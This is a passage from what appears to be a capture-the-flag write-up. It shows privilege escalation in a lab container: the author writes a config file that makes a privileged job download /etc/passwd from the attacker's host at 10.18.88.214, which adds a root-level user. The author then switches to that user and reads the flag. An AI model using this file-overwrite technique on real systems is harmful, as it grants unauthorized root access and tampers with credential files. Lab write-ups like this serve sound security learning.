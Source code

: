```
F30s@482cbf2305ae:~$ echo 'url = "http://10.18.88.214/passwd"' > site_check
echo 'url = "http://10.18.88.214/passwd"' > site_check
F30s@482cbf2305ae:~$ echo 'output = "/etc/passwd"' >> site_check
echo 'output = "/etc/passwd"' >> site_check
F30s@482cbf2305ae:~$ cat site_check
cat site_check
url = "http://10.18.88.214/passwd"
output = "/etc/passwd"
F30s@482cbf2305ae:~$ 
```

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

We have a new user `dking` now.

```bash
F30s@482cbf2305ae:~$ su dking
su dking
id
uid=0(root) gid=0(root) groups=0(root)
/bin/bash -i
bash: cannot set terminal process group (1361): Inappropriate ioctl for device
bash: no job control in this shell
root@482cbf2305ae:/home/F30s# 
```

We are root now.

```bash
root@482cbf2305ae:~# ls -ak
ls -ak
.
..
.bashrc
.cache
.profile
.python_history
.wget-hsts
flag2.txt
secret.txt
root@482cbf2305ae:~# cat flag2.txt
cat flag2.txt
b'ey}BQB_^[\\ZEnw\x01uWoY~aF\x0fiRdbum\x04BUn\x06[\x02CHonZ\x03~or\x03UT\x00_\x03]mD\x00W\x02gpScL'
root@482cbf2305ae:~# 

```